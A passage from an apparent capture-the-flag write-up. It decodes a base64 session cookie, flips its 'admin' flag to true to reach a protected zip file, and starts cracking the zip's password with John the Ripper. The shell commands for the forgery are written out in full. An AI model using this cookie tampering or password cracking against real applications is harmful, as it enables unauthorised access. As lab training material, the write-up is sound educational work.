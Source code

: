 Decoding this base-64 string, we get:
```bash
$ echo "eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjpmYWxzZX0=" | base64 -d; echo

{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":false}
```

What do you mean we are not `admin`?! Time to set things straight:
```bash
$ echo '{"cookie":"1b5e5f2c9d58a30af4e16a71a45d0172","admin":true}' | base64 -w 0; echo

eyJjb29raWUiOiIxYjVlNWYyYzlkNThhMzBhZjRlMTZhNzFhNDVkMDE3MiIsImFkbWluIjp0cnVlfQo=
```

Now, replacing the cookie in my session and refreshing the page, there is a zip file `my_secure_files_not_for_you.zip` available for download:

<p align="center">
  <img src="screenshots/secure-login-6.png" style="width:90%; border:0.5px solid black">
</p>

### Crack that 🤐
The downloaded zip file is password protected, so it's time to get *crackin'*. The choice of [tool](https://tools.kali.org/password-attacks/john) is `john` which will help us crack the password used for this zip file.
